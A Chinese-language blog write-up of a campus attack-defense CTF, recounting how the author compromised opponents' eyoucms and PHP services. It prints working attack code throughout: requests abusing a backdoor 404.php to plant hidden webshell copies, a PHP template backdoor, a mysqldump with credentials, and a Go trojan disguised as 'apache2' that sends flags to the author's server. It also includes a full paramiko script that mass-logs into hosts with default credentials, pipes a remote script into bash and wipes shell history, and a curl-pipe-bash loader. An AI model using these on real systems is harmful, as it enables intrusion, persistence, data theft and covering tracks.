


先说下赛制，是校内打着玩儿的 AWD，一个周开放一个关卡。第一个是 eyoucms，第二个是奇怪的 php，看起来像是自己写的，第三个是 python ssti，最后一个没看（考研去了）。

单说技术含量上说感觉并没有，题目都比较基础。不过这次时间比较长，实践了一下之前的一些想法，值得记录一下。

### 关卡一

### 基本利用

根目录有个后门 404.php，直接利用。

先 cp 一份到`.404.php`，防一部分没看到隐藏文件的。

再 cp 一份到 `static/api/js/.404.php`，防一部分懒得看静态文件夹的。

最后把 `/flag` 软链接到 `static/api/js/link.js`，这个大多数人都没发现。

```python
# 复制 404.php 到 .404.php
res = requests.get(f'http://{ip}:{port}/404.php?M=system("cp 404.php .404.php");')
# 复制 404.php 到 static/api/js/.404.php
res = requests.get(f'http://{ip}:{port}/.404.php?M=system("cp 404.php static/api/js/.404.php");')
# 软链接 /flag 到 /var/www/html/static/api/js/link.js
res = requests.get(f'http://{ip}:{port}/.404.php?M=system("ln -s /flag static/api/js/link.js");')
```

好了，这一套连招下来基本可以了。不过后来复盘觉得这里还是写个加密马比较好，至少 md5 校验一下。后面很多队伍发现我们这套直接打我们放的后门了。

### session 泄露

后来又发现一个洞[前台 session 泄露](https://www.cnblogs.com/Pan3a/p/14880225.html)。其实按照题目的 eyoucms 版本没有这个洞，我总感觉不对劲，去把源码下下来 diff 了一下，发现出题人把修复给删了。

这个洞基本全能打，估计没人发现，不过后来有人利用后门把`index.php`删了（不是本人），本意估计是让别人宕机，结果我那个洞要用`index.php`，歪打正着把我给防住了，郁闷。

打的过程中发现有人上了通防（watchbird），还把特殊字符都禁用了，很烦。

不过还是能打，前台 session 泄露拿到管理员权限之后把模板加一段后门。

```php
{eyou:php}
$_GET[a]($_GET[b].$_GET[c])
{/eyou:php}
```

我是加在`mobile/footer.html`的，要 mobile UA 才会返回，而且在页面最下面。估计很多上了流量监控的人也纳闷我这个咋没打通，LOL。说到流量监控，为了防止我这套被发现，我还打了一堆垃圾流量过去，谨慎！

### 数据库 flag

我翻了翻进程发现还有个 mysql，而且数据库里面的 flag 和 /flag 里面的不一样，还是单独算分，难崩。直接用 shell dump 出来。

```bash
mysqldump -h127.0.0.1 -uroot -proot-toor --databases ctf
```

感觉是有个 sql 注入的点的，不过后来我们也学别人上了个`watchbird`通防（规则允许），就懒得找了，反正都能 dump 出来。

### 加强后门

每一轮跑脚本太累了，而且别人还可能修，很烦。我每次打 awd 都在想直接放个木马上去多好。但是不能是 `.php` 那种 webshell，别人一下就发现了。看了下进程列表好多`apache2`，写个木马伪装成`apache2`多是件美事啊。于是拿 go 写了一个每分钟读取 /flag 和数据库里面的 flag，然后 POST 到我的服务器。这一套很爽，直接从服务器拿 flag 交完事儿。

### 关卡二

说实话我一开始是不知道还有关卡二的存在，所以关卡一把各种骚操作玩了一轮。

听说还有关卡二，我想试试另一个更逆天的。

### 批量 ssh 种马

考虑到每个人的初始账号密码一样（ctf, hust-ctf）。虽然提示了每个人改密码，不过他再快能比我脚本快？遂写了个批量脚本把上面说的木马种上。

```python
import paramiko
import concurrent
from concurrent.futures import ThreadPoolExecutor
import time
from awd_platform.get_host import get_all_hosts_filter_port

timeout = 5
MAX_WORKERS = 50

USERNAME = "ctf"
PASSWORD = "hust-ctf"
NEW_PASSWORD = "PASSWORD"
TRY_CHANGE_PASSWORD = False

RUNNING_COMMANDS = [
    # 小马
    "wget -qO- {小马域名} | bash",
    # 清空日志
    "rm -f ~/.bash_history",
]


class SSH_Client():
    def __init__(self, host, port, username, password):
        self.is_root = False
        self.host = host
        self.port = port
        self.username = username
        self.password = password
        self.ssh = paramiko.SSHClient()
        self.ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        self.ssh.connect(self.host, self.port, self.username,
                         self.password, timeout=timeout)

    def exec_command(self, command):
        stdin, stdout, stderr = self.ssh.exec_command(command)
        return stdin, stdout, stderr

    def change_password(self):
        stdin, stdout, stderr = self.exec_command("passwd")
        print("try change password")
        if self.username != "root":
            stdin.write(f"{self.password}\n")
        stdin.write(f"{NEW_PASSWORD}\n")
        stdin.write(f"{NEW_PASSWORD}\n")
        stdout.read()
        if "success" in stderr.read().decode('utf-8'):
            self.password = NEW_PASSWORD
            return True
        else:
            return False

    def save_log(self, filename):
        with open(filename, "a+") as f:
            f.write("%s %s %s %s\n" %
                    (self.host, self.port, self.username, self.password))

    def get_info(self):
        return (self.host, self.port, self.username, self.password)

    def run_all_commands(self):
        for command in RUNNING_COMMANDS:
            shell = self.ssh.invoke_shell()
            shell.send(command + "\n")
            time.sleep(1)


def single_ssh(host, port, username, password):
    try:
        ssh_client = SSH_Client(host, port, username, password)
        if TRY_CHANGE_PASSWORD == True:
            if ssh_client.change_password():
                print(" [+] %s (Success!)" % host)
                ssh_client.save_log("success.log")
            else:
                return None

        ssh_client.run_all_commands()
        print(" [+] %s (Success!)\r" % host)
        return ssh_client.get_info()
    except Exception as e:
        print(" [-] %s (Failed!)\r" % host)
        return None
    finally:
        try:
            ssh_client.ssh.close()
        except:
            pass


def batch_ssh():
    print(" [+] Start batch ssh")
    hosts = get_all_hosts_filter_port(
        target_port=22, courseId=61, sectionID=665)
    print(" [+] Total %d hosts" % len(hosts))

    pool = ThreadPoolExecutor(max_workers=MAX_WORKERS)

    ssh_threads = []

    for host in hosts:
        ip = host.get("ip")
        port = host.get("ports")[0][1]
        ssh_thread = pool.submit(single_ssh, ip, port, USERNAME, PASSWORD)
        ssh_threads.append(ssh_thread)

    infos = []
    for ssh_thread in concurrent.futures.as_completed(ssh_threads):
        info = ssh_thread.result()
        if info != None:
            infos.append(info)
    return infos


if __name__ == "__main__":
    while True:
        print(batch_ssh())
        time.sleep(10)
```

这一套直接无解，关卡二我都懒得打，所有人的 shell 都在我这儿。

### 升级小马

之前的小马虽然能上报 flag，还是很多地方让人很不爽。比如有的洞我们是循环脚本在打，可能在别人机器上跑很多个木马，非常浪费。于是写了个锁，保证单实例运行。

```golang
var singleInstance *single.Single

func CheckSingleInstance() {
	singleInstance, err := single.New("apache2")
	if err != nil {
		os.Exit(1)
	}
	err = singleInstance.Lock()
	if err != nil {
		os.Exit(1)
	}
}

func RunSelfBackground() {
	if os.Getenv("APACHE2_BACKGROUND") == "1" {
		// 确保只有一个后台进程
		CheckSingleInstance()
		return
	}
	cmd := exec.Command(os.Args[0])
	cmd.Env = append(os.Environ(), "APACHE2_BACKGROUND=1")
	cmd.Start()
	os.Exit(0)
}
```

另外之前的马只能上报 flag，我还想偶尔拿 shell 玩玩，于是拿 websocket 搓了个批量管理的 shell。

最后大概长这样：





好，有被爽到。

小马的上线步骤：

```bash
> curl xxx.com/script | bash
wget xxx.com/nginx -O /var/tmp/nginx -o /dev/null && chmod +x /var/tmp/nginx && nohup /var/tmp/nginx >/dev/null 2>&1 &
```

### 网站修复

网站里面的洞都是`D盾`一扫就扫到了，想修一下，结果网站所有内容都是 root 权限的，我简单看了下，应该是没法提权。结果发现 nginx 是 ctf 用户的权限，那简单了，直接把网站移个位置，换个`nginx.conf`启动完事儿。

```bash
/usr/local/nginx/sbin/nginx -c /home/jaruser/configs/nginx.conf
```

还有一份当时准备发课程群里的教程（别人修了更好，反正我靠后门拿分，根本不用打）。

```txt
1. 首先将/opt/wwwphp移动到/home/jaruser下
2. 在/home/jaruser下创建configs文件夹，内部示例如下。
3. 使用/usr/local/nginx/sbin/nginx -s stop 指令将 nginx 停机
4. 使用命令/usr/local/nginx/sbin/nginx -c /home/jaruser/configs/nginx.conf重新启动nginx
```
